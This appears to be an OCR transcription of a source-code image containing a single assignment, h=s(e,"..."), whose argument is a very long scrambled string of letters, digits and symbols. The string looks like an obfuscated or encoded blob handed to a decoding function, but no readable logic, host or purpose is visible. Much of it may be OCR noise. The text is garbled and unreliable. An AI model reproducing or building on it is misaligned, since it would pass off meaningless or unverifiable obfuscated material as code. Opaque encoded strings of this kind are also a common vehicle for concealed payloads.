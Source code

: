 h=s(e,"rHst91_xS3/C7F.wt_sstt991SxCxxSS33wHs99s9s+.xC1FSs//_tS_313_F3wF)CsttF1b11x/Hss/tH9s1tF:.9.xwCHCsFt7991/_9HHs9tq9H1sCt.tw7wCH3CCFHF/.Cw7_<St3C/1C9F_FS.S3S/CCx7SF31/17x1Sw/H9s1._HxsStFxHxHCsS979.t.xFSC3F/sC.FxFwS1/O/9C17_H/1x1/xFSw31/tCx79F9/H.x.7Cx73F_.xwS9.SH3s/w1b_C_wS+3HdHH3HS9s1x9/1ix.3.S7/w79F7Ss/H/HCs7ts_9/__xtSHS73CCw7HFHFHYt wststt/93wSHHHxsSt33H7M.D7Iw_RSH7s1999S_sGSsCsxtS93/HF9wsws7Cwws19111HttHt1x337C9C.7F.wwHeH7w7sF7.HwsYt1x3x3C/S777.C7dLH6sHsFtF.tE/RsHts9SsC17_F_77.ww.^CH+9s1H13_wx33_x7/.C/7CFFwxFCHwt2tw.HwtdTHHssSH/17s7Cx/S733//CCH79s_sxsHt9Sts9t19C3F.wigC73s<t99S1sH.S_SH/9_s7tF_.9w/w7#CsFswtw^7x9xx3t3S_H3wFs.twt.3X7HC.3tpH.wwHSH.sw9z39F9FS.1Q3UCDts3tC9w_xbws/s.tw1+/9.9.Sw1H3HCHCtF_H_._FSC/19H19_lxHSsqxf1Hxtst7.Czt}/HCs7SCCtF_7t._w1HxHFt999./H3?3H/sC/97HFsFwwt7CFH.st9t_13_C_FxC3t/3x/7^FF.7CwHtHtt/Zttk9993SS13S_3FF1x%3tSw/!CHV3t71/1/tt_/373/C.xC333F.Hj9H7s_t11x13_3txs/9t931/_C7+wsHHstts9>1CHt9CS/Swt/1x13_/xC7FP/HFt9t.11Hstvt9xS3CCtCF77..S./t/FC.7wsx1/xSxS_1/HCs1/x7x3S/3CwxH.tC991S_sxwSS37/_x_C/.Hw_owHxHF9H9F_HItHCsstt99377C.CFCw.H7tHt1961tzsHxsHts9t37F3./wxFwy.s.7..H.Fw.{wxt/H/C7HFxxSS/3x/SC3HH99_s_sHHtttL9H1s/9.3w3817xwwts1:1,H7S33__9_z/HFH./.3uxssC/7.F3./wCx1SC/H/97sF1x1Sx39/1C_s.t31_1wl.s_sFt.9wCtF_..wSZxs3sCtC}SH/<Fsxs7tF9./s.s._wtHxH3H3919.1wx1xws.919F1._w7.w_H3%/sF9t9/__xw_.s/tC971FCsxw3*/HCt7tF9.1vSowHSs3t/1317_Fx./HC1CH7sFt.Fw1R_Hx9.9}9/1C_7StS./aCPFsFs.xwx)1H_sxt.931C_Cx7793./w7<Fs.swtY9sx1.tx9S13_7xCS73F7kg.FP.swss1H9s1t__x_/_3xCSC3F/FFC7wwswS}sH_s99C9_1x_Sx3/_3C/FCFFHFwwsgHs9tCt99x1__.xSS33//C7F7FF..w%sHHs9tt99x6__xxSS3///CF77wFzSwwHHsHts9tx3_1SSSS3S/7C/._F7.Fw.ewsStH9t1t_xx1SS3x7S777/FF.7w.d.t9tT1t13_txSS1C6/xCS73F/wFw7lwH.tt9?1t_s3t3s31/3Cx7/F3w7wCH.1_s.991jxSxsSt39/1.S7xFC.3ww>CHFsF1.19_%x9Ss31/9CC7_.3wsw3RwHC9wtF9.1wxU793s/3C97xF_.xwSHC1tsC9t9F_H_wS23HC9.779FF._H1iSH3s/tCxS1Fx9xw3S/HCt7t._HFw_*.HSsFt/9C17_w7xSw/SCH7_Ft.9w1?_HFsSt79/_t_7xwS.Cw797HF_.tw_R1s3sx9/9C1/xHx7/_3./w7{FtsCwtGCH1s_tx9S13_//FS7/H/.7_Fb.swsstsSs1t/9x1/_33.SC/.7#C.F1.dHHksHts9txSw1x_wx3SC3C/7CF7.HHwLU1Hss/t99_1_Sx3sS33./CC.7F.C.wHss9sst3991___xxSS3CwtCCFtFFwHwwHlsHtsx119_3x_S.3S//C/.C.w.FEsvwsstH191tx_S1S_3F/S717/FC.7wFHxHwt99H1S_tx1S13_C9CS7FF/.Cw7=FH.9H931H__xtS731/_CxF/.x./wwR7sss.tw16xtSwSt33/1FS7xFS.3H/16H7tst.19_nSFSs/17yC17FFxwsw3z/HCs71S9._9x%SS3s/1C9.1Fw.xwFX3HwsC979Fx.SzS(3_/sCS79.u._wxH1H3swtC1s1F_.xw3R/tCs7xF9.1w_kFHSsFtF9C17_FC.Sw/HCHF9:C.9w.P_sCsSt39/xC3txF3x3wC37Hwt.tq_HwH_tHtS1H1/_Cx7/FCt/w7CFH./wtHtH1s_1s9S_s_/S_S73./.71wC.Hw_ct9ws1tx9x1/_3x.S.37/FC.#/.zwsvstttxt19/1x_/x33P3CC.7H7..1w8s9Hsstt91x_._xxwS3/s/CC77Fw;w3VWH3sstx9911__x3FH33CtCCFHFF..wwHosxts9x19_.x_S33S73717C.H.F2#^wsFtH19_7_9x7S_C_/SC37/FFt1wFH_Hwt_9H1s_tx9Cx3_/7CSFHF/.7w7sFHwsw911H_txt3331CSCw7S.:./Ht}7HFs.tw1__HxxSt3C/1CS7xwSw_w/HHH7tst.17_%StS93t/7C1F.Fx.Sw3Hm9.s79_9._HxQSs3s/9C971sH.xwSU3H/sCt79F1.3MSn3x/sC779F_._wxHCH3s/tC9F1F_.xw3y/SCs7tF9w#w_-xHSs7t.9C17_F.1w88FH_71FC.9w1y__/SF/1/wC..q.sws/s7H7HFs.t9__/S_3t/H/7CCFw.HwHwHstsw9t9t1/_3HStxtx9S13/CFwwTw9H_s9t19F91xtxF3tS7/S79F.FwS./S/FC.7wtx1s_CSx_//9CS3/F#.sw_ww/w7x7.FwwN9Sxx3xSx//7SFF.H.7ww/.7s7FF..wx1xw3s39/x7c_3x.SS33//BFtH9/1Fxtx139ts9t19_1x_Sx3S/3w/7CF7.Fw.RwsitHts3s_xxwS_3x/Swwtt9F1H1dxt3H/_/_79xxx9S13_/x7e73FC.Cw7